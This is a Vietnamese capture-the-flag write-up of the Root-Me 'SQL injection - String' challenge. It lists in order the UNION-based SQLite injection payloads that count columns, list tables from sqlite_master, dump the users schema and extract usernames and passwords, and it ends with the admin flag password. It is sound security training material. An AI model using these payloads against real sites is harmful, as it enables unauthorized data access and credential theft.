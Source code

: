 # Challenge: SQL injection - String
## Người làm:   
    Nguyễn Ngọc Trưởng - 19522440
    Thời gian: 
## Link: 
    https://www.root-me.org/en/Challenges/Web-Server/SQL-injection-String

- Vào thử thách này thì ta thấy cả trang sẽ có 2 form, 1 là form tìm kiếm, 2 là form đăng nhập 
<p align="center"><img src="./images/3.1.png"></p>
<p align="center"><img src="./images/3.2.png"></p>

- Vì đề hỏi là password của admin, và nó có 2 form nên ta thử xem xét lỗi injection kết hợp union ở form tìm kiếm, kiểm tra ngay (nhập `abc '`) thì ta thấy thật sự có lỗi này
<p align="center"><img src="./images/3.3.png"></p>

- Thử với `abc' order by 3 --`
<p align="center"><img src="./images/3.4.png"></p>

- Thử với `abc' order by 2 --`
<p align="center"><img src="./images/3.5.png"></p>

- Thử với `abc' union select 1,2 --` để xem các cột hiển thị trên trình duyệt
<p align="center"><img src="./images/3.6.png"></p>

- Ta biết rằng cơ sở dữ liệu của web là sqlite3, thông qua thông báo lỗi. Ta tham khảo các lệnh sqlite 3 ở đây 
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md

- Thử với `abc' union select 1, tbl_name FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' --` để show ra các table có trong csdl
<p align="center"><img src="./images/3.7.png"></p>

--> Ta thấy csdl gồm có 2 tables: users và news

- Thử với `abc' union select 1,sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='users' --` để show ra các cột có trong bảng user
<p align="center"><img src="./images/3.8.png"></p>

- Lấy username password với input là `abc' union select username, password from users -- `
<p align="center"><img src="./images/3.9.png"></p>

- Lấy password của admin submit, và vượt qua thử thách
## Kết quả password là `c4K04dtIaJsuWdi`